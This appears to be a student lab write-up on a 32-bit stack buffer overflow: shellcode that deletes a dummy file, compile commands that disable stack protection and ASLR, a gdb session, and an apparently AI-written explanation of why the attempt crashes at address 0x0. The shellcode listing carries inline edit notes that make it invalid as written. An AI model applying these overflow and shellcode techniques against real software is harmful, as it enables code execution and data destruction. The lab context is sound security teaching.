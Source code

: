 # Information Security – Lab 2 

## 1. Run file_del.asm in vuln.c with buffer overflow

### Compile and prepare


```sh
section .text 
global  _start 
 
_start: 
    jmp short ender 
starter: 
    xor eax, eax <- was edited from mov mov eax, 10 
    add al,  8 
    add al,  2 
    mov ebx, _filename 
    int 0x80 
_exit: 
    xor eax, eax <- was edited from mov eax, 1 
    add al,  1 
    int 0x80 
 
ender: 
    call starter 
 
_filename db 'dummyfile' <- was edited from _filename: db ‘dummyfile’, 0 

```

Turn off OS's address space layout randomization

![](./images/0.png)

```sh
gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c
nasm -f elf32 file_del.asm
ld -m elf_i386 -o file_del file_del.o
```
![](./images/1.png)


### Generate payload

Python code to dump

![](./images/2.png)

```sh
python3 ./lab2/exploit.py
```

![](./images/3.png)

### Attack step by step in gdb

```sh
# Run GDB with commands
gdb -q ./vuln << EOF
set disassembly-flavor intel
disassemble main
break *main+17
break *main+51
break *main+78
run \$(cat payload.bin)

# At first breakpoint (before strcpy)
info registers
x/32xw \$esp
continue

# At second breakpoint (after strcpy)
info registers
x/32xw \$esp
x/s \$esp
continue

# At third breakpoint (at ret instruction)
info registers
x/32xw \$esp
x/s \$esp
x/16i \$eip
backtrace
info frame
continue
EOF
```

Based on the provided information and GDB output, I'll explain the buffer overflow attack step-by-step in English:

1. Preparation:
The vulnerable program `vuln.c` contains a buffer overflow vulnerability in the `strcpy` function. The `file_del.asm` contains shellcode to delete a file named "dummyfile".

2. Compilation and setup:
- The vulnerable program is compiled with protections disabled:
```sh
gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c
```
- The shellcode is assembled:
```sh
nasm -f elf32 file_del.asm
ld -m elf_i386 -o file_del file_del.o
```
- Address Space Layout Randomization (ASLR) is disabled.

3. Payload generation:
A Python script (`exploit.py`) is used to generate the payload, which likely consists of:
- NOP sled
- Shellcode from `file_del.asm`
- Return address to override the stack

4. GDB analysis:

a. First breakpoint (before `strcpy`):
```
Breakpoint 1, 0x0804844c in main ()
```
At this point, the stack and registers are in their initial state.

b. Second breakpoint (after `strcpy`):
```sh
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffff00bf --> 0x0
EDX: 0xffffd71c ("yfile\240\366\377\277")
ESI: 0xf7fc9000 --> 0x1b2db0
EDI: 0xf7fc9000 --> 0x1b2db0
EBP: 0x0
ESP: 0xffff00bb --> 0x0
EIP: 0x8048489 (<main+78>:      ret)
```
The buffer has been overflowed, and the stack has been overwritten with our payload. The `EBP` and return address have been overwritten.

c. Third breakpoint (at `ret` instruction):
```sh
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffff00bf --> 0x0
EDX: 0xffffd71c ("yfile\240\366\377\277")
ESI: 0xf7fc9000 --> 0x1b2db0
EDI: 0xf7fc9000 --> 0x1b2db0
EBP: 0x0
ESP: 0xffff00bf --> 0x0
EIP: 0x0
```
The program is about to return, but the return address has been overwritten with 0x0, which is an invalid address.

5. Crash analysis:
```sh
Invalid $PC address: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xffff00bf --> 0x0 
0004| 0xffff00c3 --> 0x0 
0008| 0xffff00c7 --> 0x0 
0012| 0xffff00cb --> 0x0 
0016| 0xffff00cf --> 0x0 
0020| 0xffff00d3 --> 0x0 
0024| 0xffff00d7 --> 0x0 
0028| 0xffff00db --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000 in ?? ()
```
The program crashes with a segmentation fault (SIGSEGV) when trying to execute code at address 0x0. This indicates that our payload has successfully overwritten the return address, but it seems the overwritten address is incorrect.

6. Issue identification:
The buffer overflow was successful in overwriting the stack and return address. However, the payload doesn't seem to be correctly constructed:
- The return address is overwritten with 0x0 instead of pointing to the shellcode.
- The stack doesn't contain visible shellcode at the examined locations.

To fix this issue:
1. Ensure the payload is correctly constructed with the shellcode and a proper return address pointing to the NOP sled or shellcode.
2. Verify the buffer size in `vuln.c` and adjust the payload size accordingly.
3. Double-check the `exploit.py` script for any errors in payload generation.

By addressing these issues, the exploit should successfully redirect execution to the shellcode, resulting in the deletion of the "dummyfile".

![](./images/4.png)